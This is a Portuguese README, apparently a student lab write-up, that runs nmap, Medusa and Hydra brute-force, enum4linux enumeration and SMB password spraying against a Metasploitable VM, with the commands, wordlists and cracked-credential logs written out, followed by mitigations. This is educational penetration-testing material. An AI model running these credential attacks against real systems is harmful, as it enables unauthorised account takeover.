 # Kali_Teste

<!-- Utilização do S.O Kali Linux e do Metasploitable para testes de ethical hacking e invasão. -->

## Descrição

Este projeto iremos utilizar ferramentas integradas do Kali Linux para execução de testes de invasão, com o apoio do Metasploitable.
Sendo mostrado passo-a-passo neste documento.

## Indice
1.Pre-requesitos(#pré-requisitos)
2.Configuração do ambiente(#configuração-do-ambiente)
3.Wordlists e arquivos(#wordlists-e-arquivos)
4.Testes realizados(#testes-realizados)
5.Evidências / Logs(#evidências--logs)
6.Mitigações e recomendações(#mitigações-e-recomendações)
7.Estrutura do repositório

## Pré-requisitos

- Oracle Virtual Box (para emulação do Kali Linux e do Metasploitable)
- Download nos sites oficiais de ambas imagens para emulação
- Criação da VM de Kali Linux com o Oracle Virtual Box
- Criação da VM do Metasploitable com o Oracle Virtual Box
- Utilizar as ferrramentas do Kali Linux: (Medusa, nmap, enum4linux)

## Configuração do ambiente

1. Apos download e instalação do Oracle Virtual Box, extrair as .iso's e executar para trazer para a lista de maquinas no Oracle.
2. Configurar a placa de rede das V.M's que foram criadas de NAT para Host-Only (assim elas poderam se enxergar entre si).
3. Iniciar ambas V.M's e testar o comando ifconfig para ver a rede de cada V.M e testar o comando de ping entre elas (ping -c 3 192.168.xxx.xxx) para ver se estão se enxergando.

## Wordlists e arquivos

1. Criação da lista de usuários para a Medusa e a Hydra: (printf "user\nmsfadmin\nadmin\nroot\n" > usuarios.txt)
2. Criação de lista de senhas para a Medusa e a Hydra: (printf "%s\n" "123456" "password" "qwerty" "msfadmin" > senhas.txt)
3. Criação da lista de usuários para o password Spraying: (printf "user\nmsfadmin\nservice" > usuarios_smb.txt) 
4. Criação de lista de senhas para o password Spraying: (printf "password\n123456\nWelcome123\nmsfadmin\n" > wordlists/spray_passwords.txt)  


## Testes realizados

- Efetuamos a varredura das portas no Megasploitable com a ferramenta Nmap no Kali Linux,

  **Utilizando o comando**
  nmap -sV -p 21,22,80,123,445,5900 192.168.56.101

  **Resultado**
  
Nmap scan report for 192.168.56.101
Host is up (0.00020s latency).

PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         vsftpd 2.3.4
22/tcp   open   ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open   http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
123/tcp  closed ntp
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5900/tcp open   vnc         VNC (protocol 3.3)
MAC Address: 08:00:27:CC:E7:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Agora vamos utilizar a ferramenta Medusa para teste de Brute-Force via FTP (TCP 21)

  **Utilizando o comando**
  medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp -t 10 | tee logs/ftp_medusa.log

  **Resultado**

<details> <summary>log de saída (linhas com ACCOUNT FOUND)</summary>
 
2025-10-14 23:18:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (1 of 4 complete)
2025-10-14 23:18:37 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: password (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: 123456 (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: password (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: msfadmin (4 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 5 complete) Password: qwerty (4 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (1 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: 123456 (2 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)

</details>

Notem que na linha 2 deu sucesso ao tentar descobrir o usuario e senha da porta 21.

Abaixo tentaremos acessar o FTP com as credenciais que a Medusa nos forneceu:

ftp 192.168.56.101                                                                                 
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

- Agora iremos utilizar o Hydra para o teste de Brute Force em formulário web (dvwa), pois o mesmo tem mais eficiencia em formulários HTTP.

  **Utilizando o comando**

 hydra -L usuarios.txt -P senhas.txt 192.168.56.101 http-post-form \
 "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" \
 -t 10 -f -V | tee logs/http_hydra.log

  **Resultado**

<details> <summary>log de saída</summary>
 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-14 23:57:41
[DATA] max 10 tasks per 1 server, overall 10 tasks, 16 login tries (l:4/p:4), ~2 tries per task
[DATA] attacking http-post-form://192.168.56.101:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[ATTEMPT] target 192.168.56.101 - login "user" - pass "123456" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "user" - pass "password" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.56.101 - login "user" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "user" - pass "msfadmin" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "123456" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "password" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "msfadmin" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.56.101 - login "admin" - pass "123456" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "admin" - pass "password" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.56.101 - login "admin" - pass "qwerty" - 11 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.56.101 - login "admin" - pass "msfadmin" - 12 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.56.101 - login "root" - pass "123456" - 13 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "root" - pass "password" - 14 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.56.101 - login "root" - pass "qwerty" - 15 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.56.101 - login "root" - pass "msfadmin" - 16 of 16 [child 7] (0/0)
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
[STATUS] attack finished for 192.168.56.101 (valid pair found)
1 of 1 target successfully completed, 1 valid password found

</details>

Note que o mesmo ja elucida o host, usuário e senha.

- Agora iremos fazer a parte de enumeração e de password Spraying e utilizaremos os wordlists ja criados.

  **Utilizando o comando**

enum4linux -a 192.168.56.101 | tee enum4_output.txt 

**Resultado**

<details> <summary>usuários</summary>

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]

</details>

Apos a enumeração, iremos ver a parte de Password Spraying

  **Utilizando o comando**

 medusa -h 192.168.56.101 -U usuarios_smb.txt -P spray_passwords.txt -M smbnt -t 2 -T 50  


<details> <summary>log de saída</summary

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: 123456 (1 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: password (2 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: Welcome123 (3 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 1 complete) Password: msfadmin (4 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: password (1 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: 123456 (2 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: Welcome123 (3 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: msfadmin (4 of 4 complete)
2025-10-15 00:49:37 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: password (1 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: Welcome123 (3 of 4 complete)
2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 4 complete) Password: msfadmin (4 of 4 complete)

</details>

Notem que ele conseguiu achar um usuário e senha para o acesso via SMB.









FTP: evitar FTP simples; usar SFTP/FTPS; proibir contas com senhas fracas e usar bloqueio após X tentativas; monitorar logs de autenticação.

Formulários web: proteção contra brute force (rate limiting, CAPTCHA, WAF), políticas de bloqueio progressivo, logs de tentativas, uso de hashing + salt nas senhas, autenticação multifator.

SMB: desativar SMBv1, aplicar políticas de senha forte, logging, detecção de varreduras/ataques de senha, limitar contas administrativas e aplicar lockout/alertas.

Geral: implementar MFA, políticas de rotação de senha, monitoramento SIEM, segmentação de rede e princípio do privilégio mínimo.
